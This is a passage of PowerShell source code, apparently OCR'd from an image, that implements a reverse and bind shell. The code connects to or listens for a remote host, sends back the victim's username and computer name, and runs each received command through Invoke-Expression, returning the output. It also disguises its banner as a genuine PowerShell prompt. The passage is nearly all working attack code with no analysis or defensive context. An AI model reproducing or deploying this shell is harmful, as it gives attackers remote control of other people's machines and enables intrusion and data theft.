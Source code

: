 ```Powershell
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
```